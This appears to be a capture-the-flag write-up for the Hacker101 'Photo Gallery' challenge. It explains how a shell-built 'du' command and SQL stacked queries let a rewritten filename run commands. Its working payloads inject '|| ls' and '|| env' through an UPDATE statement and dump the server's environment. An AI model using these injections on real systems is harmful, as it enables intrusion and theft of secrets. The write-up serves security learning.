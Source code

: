 # Photo Gallery - FLAG2

## 0x00 Space Used

![](../flag1/imgs/index.jpg)

We know there are images taking some of the spaces here, but the total space used are showing 0.

So as we already got the source code of the page, we can check how the space calculated in [line 39][1].

```python
rep += '<i>Space used: ' + subprocess.check_output('du -ch %s || exit 0' % ' '.join('files/' + fn for fn in fns), shell=True, stderr=subprocess.STDOUT).strip().rsplit('\n', 1)[-1] + '</i>'
```

So here we can see the commands here.

```bash
du -ch filenames || exit 0
```

And we may change file name to inject with commands here.

## 0x01 Stacked Queries

As we have the table here

| id | title            | parent | filename           |
| -- | ---------------- | ------ | ------------------ |
| 1  | Utterly adorable | 1      | files/adorable.jpg |
| 2  | Purrfect         | 1      | files/purrfect.jpg |
| 3  | Invisible        | 1      | FLAG1              |

Try modify image title

```sql
id=1;UPDATE photos SET title='test' WHERE id=3;COMMIT;--
```

Successfully updated file title 3.

![](./imgs/filename.jpg)

## 0x02 Remote Code Execution

Now we can update **filename** to perform RCE.

```sql
id=1;UPDATE photos SET filename='* || ls > test' WHERE id=3;COMMIT;--
```

Visit **INDEX** page to execute the command.

```sql
id=1 UNION SELECT 'test'--
```

Here we got **ls** results in file **test**

```
Dockerfile files main.py main.pyc prestart.sh requirements.txt test uwsgi.ini 
```

## 0x03 FLAG

```sql
id=1;UPDATE photos SET filename='* || env > test' WHERE id=3;COMMIT;--
```

Visit **INDEX** page to execute the command.

```sql
id=1 UNION SELECT 'test'--
```

Here we got all 3 flags in one place.

![](./imgs/flag.jpg)

[1]: https://github.com/testerting/hacker101-ctf/blob/master/photo_gallery/flag0/main.py#L39
